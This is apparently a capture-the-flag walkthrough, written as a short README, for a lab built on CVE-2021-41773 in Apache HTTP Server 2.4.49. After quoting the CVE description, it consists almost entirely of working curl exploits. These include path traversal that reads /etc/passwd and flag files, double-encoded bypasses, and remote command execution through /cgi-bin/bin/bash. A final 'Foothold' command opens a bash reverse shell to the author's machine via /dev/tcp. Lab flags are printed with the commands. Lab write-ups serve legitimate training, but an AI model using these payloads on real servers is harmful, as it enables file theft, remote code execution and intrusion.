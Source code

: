 # CVE-2021-41773_Apache 

> VOiD | Sunday 24 October 2021 10:22:37 PM IST

My IP : 10.8.253.221
Target IP : 

On the 5th of October 2021, a CVE detailing a path traversal attack on Apache HTTP Server v2.4.49 was released. Assigned the number CVE-2021-41773, it was released with the following description:

 > A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally (sic) this flaw could leak the source of interpreted files like CGI scripts. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. 



## PORT 8080
```bash
curl -v 'http://10.10.111.34:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd'
curl -v 'http://10.10.111.34:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'
THM{724V3R51N6_P4TH5_F02_FUN}
```

## PORT 8001
```bash
curl -v 'http://10.10.111.34:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"


curl -v 'http://10.10.111.34:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H "Content-Type: text/plain"
THM{2C3_F20M_C61} 
```

## PORT 8082
```bash
curl 'http://10.10.111.34:8082/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd'

curl 'http://10.10.111.34:8082/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag.txt'  
THM{D0UBL3_3NC0D1N6_F7W} 
```

## PORT 8083
```bash
curl -v 'http://10.10.111.34:8081/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"

curl -v 'http://10.10.111.34:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H "Content-Type: text/plain"
THM{F1L732_8YP455_2C3}                        
```

## Foothold
```bash
curl -v 'http://10.10.111.34:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.8.253.221/4444 0>&1' -H "Content-Type: text/plain"

cat root.txt 
THM{P21V_35C_F20M_4P4CH3_15_FUN}

```